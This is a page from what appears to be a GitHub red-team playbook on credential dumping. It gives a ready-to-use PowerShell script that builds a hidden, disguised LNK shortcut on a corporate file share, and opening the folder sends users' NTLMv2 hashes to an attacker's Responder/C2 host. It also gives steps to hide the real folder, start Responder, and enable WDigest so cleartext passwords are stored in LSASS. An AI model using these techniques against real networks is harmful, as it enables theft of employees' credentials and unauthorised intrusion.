 # 4.2 Credential Dumping

## Table of Contents

- [LNK Files](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumpingn.md#LNK-Files)

## LNK Files

A neat little trick to gather `NTLMv2 Hashes` every time a corporate file share got accessed, is to create a malicious `file`,
which takes place in the same directory on the fileshare.

At first it is necessary to create the malicious file with the following script from [v3ded's blog](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) which I modified slightly to weaponize it for the use with `Responder`.

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

Next, switch the folder icon to the same icons as used on the fileshare. After that all is to hide the target folder with
the following command.

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/lnk_payload.png">
</p>

After this the malicious file takes place in the same directory as the hidden non-malicious folder.
Everytime a user opens the folder, his `NTLMv2 Hash` got send to the `C2` server which is running `Responder`.

```c
$ sudo responder -I <INTERFACE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/malicious_file.png">
</p>

## WDigest

### Store cleartext credentials in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)

### Next

- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)

